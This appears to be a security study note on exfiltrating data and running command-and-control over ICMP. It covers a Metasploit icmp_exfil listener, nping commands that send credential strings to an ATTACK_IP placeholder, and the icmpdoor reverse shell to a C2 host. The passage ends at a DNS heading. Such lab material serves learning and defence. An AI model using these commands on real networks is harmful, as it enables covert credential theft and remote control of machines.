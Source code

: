 ```bash
echo "admin:password123" | xxd -p
```
And then we can use the `ping` command with the hex value we got from converting our credentials
```bash
ping IP -c 1 -p 61646d696e3a70617373776f72643132330a
```

## ICMP Data Exfiltration
[[Metasploit]] uses the same technique explained before. However, it will capture incoming ICMP packets and wait for a Beginning of File (BOF) trigger value. Once it is received, it writes to the disk until it gets an End of File (EOF) trigger value.
![[Pasted image 20240626162248.png]]
Now from our machine, we can set up the Metasploit framework **with root privileges** by selecting the `icmp_exfil` module to make it ready to capture and listen for ICMP traffic. One of the requirements for this module is to set the `BPF_FILTER` option, which is based on TCPDUMP rules, to capture only ICMP packets and ignore any ICMP packet that have the source IP of the attacking machine. We also need to select in which network interface to listen to.
```msfconsole
use auxiliary/server/icmp_exfil
set BPF_FILTER icmp and not src ATTACK_IP
set INTERFACE tun0
run
```
We can now use `nping`, an open source tool for network packet generation, response analysis, and response time measurement. The `nping` tool is part of the [[nmap]] suite tools.
First, we will send the BOF trigger from the ICMP machine so that the Metasploit framework starts writing to the disk. 
```bash
sudo nping --icmp -c 1 ATTACK_IP --data-string "BOFfile.txt"
```
We can now start sending all the other required data in separate ICMP packets
```bash
sudo nping --icmp -c 1 ATTACK_IP --data-string "admin:pass"
sudo nping --icmp -c 1 ATTACK_IP --data-string "user1:pass1"
sudo nping --icmp -c 1 ATTACK_IP --data-string "user2:pass2"
sudo nping --icmp -c 1 ATTACK_IP --data-string "EOF"
```
Now if we check our msfconsole, we will see that the data collection has ended, as our end trigger arrived, and all of the data has been stored.
## ICMP C2 Communication
We can execute commands over the ICMP protocol using the [ICMPDoor](https://github.com/krabelize/icmpdoor) tool. It is an open source reverse shell written in Python3 and scapy. The tool uses the same concept, where an attacker utilizes the data section within the ICMP packet. Only that we will be sending commands that we want to be executed and the target will reply with the output.
![[Pasted image 20240626191900.png]]
Once we are on our target, we will be executing `icmpdoor` specifying the interface over which we will communicate and the destination of our C2 server
```bash
sudo icmpdoor -i eth0 -d C2_IP
```
Next, on our C2 server, we execute the `icmp-cnc` binary to communicate with the target. Once ran, a communication channel will be established over the ICMP protocol.
```bash
sudo icmp-cnc -i eth0 -d IP
```
Now, we have a reverse shell, we can start executing commands on our server.
# DNS
## DNS configuration